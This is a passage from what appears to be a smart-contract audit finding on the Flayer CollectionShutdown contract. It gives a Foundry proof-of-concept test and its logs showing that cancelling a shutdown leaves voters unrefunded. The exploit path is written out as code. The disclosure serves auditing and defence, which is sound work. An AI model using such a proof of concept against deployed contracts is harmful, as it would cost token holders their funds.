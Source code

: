 ```solidity
        delete _collectionParams[_collection];
        emit CollectionShutdownCancelled(_collection);
    }
```

### Proof-Of-Concept

Here is the testcase of the POC:

To bypass the [total supply vs shutdown votes restriction](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L398-L400), added the following line to the test case:

```solidity
    collectionToken.mint(address(10), _additionalAmount);
```

The whole test case is:

```solidity
    function test_CancelShutdownNotRefund() public withQuorumCollection {
        uint256 _additionalAmount = 1 ether;
        // Confirm that we can execute with our quorum-ed collection
        assertCanExecute(address(erc721b), true);

        vm.prank(address(locker));
        collectionToken.mint(address(10), _additionalAmount); 

        // Cancel our shutdown
        collectionShutdown.cancel(address(erc721b));

        // Now that we have cancelled the shutdown process, we should no longer
        // be able to execute the shutdown.
        assertCanExecute(address(erc721b), false);

        console.log("Address 1 balance after:", collectionToken.balanceOf(address(1)));
        console.log("Address 2 balance after:", collectionToken.balanceOf(address(2)));
    }
```

Here are the logs after running the test:
```bash
$ forge test --match-test test_CancelShutdownNotRefund -vv
[⠒] Compiling...
[⠃] Compiling 1 files with Solc 0.8.26
[⠊] Solc 0.8.26 finished in 8.81s
Compiler run successful!

Ran 1 test for test/utils/CollectionShutdown.t.sol:CollectionShutdownTest
[PASS] test_CancelShutdownNotRefund() (gas: 390566)
Logs:
  Address 1 balance after: 0
  Address 2 balance after: 0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.29s (454.80µs CPU time)

Ran 1 test suite in 8.29s (8.29s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
